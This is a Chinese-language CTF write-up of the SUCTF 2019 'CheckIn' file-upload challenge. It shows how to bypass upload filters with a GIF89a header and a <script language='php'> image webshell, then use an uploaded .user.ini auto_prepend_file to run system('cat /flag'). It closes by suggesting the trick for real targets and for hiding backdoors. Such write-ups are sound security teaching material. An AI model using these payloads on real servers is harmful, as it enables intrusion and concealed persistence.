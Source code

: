 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.starpoc.vip](https://www.starpoc.vip/doc/535/)

# user.ini 的利用

前言
--

在前段时间 SUCTF 2019 的比赛中做了一道名为 CheckIn 的文件上传题，学到了一种新的利用姿势——.user.ini。

原题的链接已经失效了，但 SU 的师傅们把题目源码贴在 GitHub 上了（感谢师傅们！！），如果想尝试的话可以下载源码复现，在这里放一下地址：

[ [https://github.com/team-su/SUCTF-2019](https://github.com/team-su/SUCTF-2019) ]([https://github.com/team-](https://github.com/team-)  
su/SUCTF-2019)

CheckIn 题目分析
------------

首先我们来看一下题目，首页就是一个简单的上传界面：

我们先上传一个 php 文件试一下，显然是 illegal 的

经过 fuzz 发现修改 content-type 和利用特殊扩展名 php5、pht 等都没有成功（当然也不会这么简单 233）

然后我们把扩展名改为 aaa 试一下会怎样，发现回显：<? in contents!，那么就是说文件内容不能包含 <? 喽，但我们此时知道它是黑名单过滤了。

我们再把文件内容换一下，发现回显：exif_imagetype:not  
image!，猜测后端应该调用了 php 的 exif_imagetype() 函数，这个很好绕过，添加图片文件头就可以了

我们添加最简单的 gif 文件头 GIF89a，发现上传成功（注意看该文件夹下还有一个 index.php，当时没有注意，但在后面有大用处）

我们先来捋一下思路：

```
-> 上传过滤为黑名单，但php脚本文件应该是无法上传的
-> 存在文件头过滤，需要添加图片文件的文件头
-> 文件的内容不能包含<?，但可以上传<script language='php'><scirpt>类型的图片马来绕过

```

既然是黑名单过滤而且可以上传图片马，那我们首先想到的肯定是传一个. htaccess 上去来将图片马解析为 php，而这种方法经过尝试发现失败了。。。

看了一下服务器是 nginx 1.10.3，似乎版本较高，不存在解析漏洞。

随后在网上看到了一篇 p 牛的文章，讲的是利用. user.ini 来上传 php 后门

.user.ini
---------

我们先在 php 手册上看一下对. user.ini 的介绍：

大致意思就是：我们指定一个文件（如 a.jpg），那么该文件就会被包含在要执行的 php 文件中（如 index.php），类似于在 index.php 中插入一句：require(./a.jpg);

这两个设置的区别只是在于 auto_prepend_file 是在文件前插入；auto_append_file 在文件最后插入（当文件调用的有 exit() 时该设置无效）

寻找突破 getflag
------------

看过. user.ini 的分析后我们的思路应该比较清晰了，我们可以上传一个这样的. user.ini：

```
GIF89a
auto_prepend_file=a.jpg

```

此时我们注意到上传目录下还有一个 index.php，我们正好需要该目录下有一个可执行 php 文件，那这简直暴露了考点就是. user.ini，看来这个思路应该是可行的

然后再上传一个这样的图片马 a.jpg：

```
GIF89a
<script language='php'>system('cat /flag');</script>

```

最后，我们访问[  
http://192.168.177.152:9021/uploads/6683eb5bfa1174bd139499256f60b7ab/index.php](http://192.168.177.152:9021/uploads/6683eb5bfa1174bd139499256f60b7ab/index.php)

即可得到 flag

.user.ini 实战利用的可能性
------------------

综上所述. user.ini 的利用条件如下：

服务器脚本语言为 PHP 服务器使用 CGI／FastCGI 模式 上传目录下要有可执行的 php 文件  
从这来看. user.ini 要比. htaccess 的应用范围要广一些，毕竟. htaccess 只能用于 Apache

但仔细推敲我们就会感到 “上传目录下要有可执行的 php 文件” 这个要求在文件上传中也比较苛刻，应该没有天才开发者会把上传文件放在主目录或者把 php 文件放在上传文件夹。

但也不是全无办法，如果我们根据实际情况配合其他漏洞使用可能会有奇效，前段时间我遇到一个 CMS 对上传时的路径没有检测../，因此导致文件可被上传至任意目录，这种情况下我们就很有可能可以利用. user.ini

除此之外，把. user.ini 利用在隐藏后门上应该是个很好的利用方法，我们在存在 php 文件的目录下留下. user.ini 和我们的图片马，这样就达到了隐藏后门的目的。
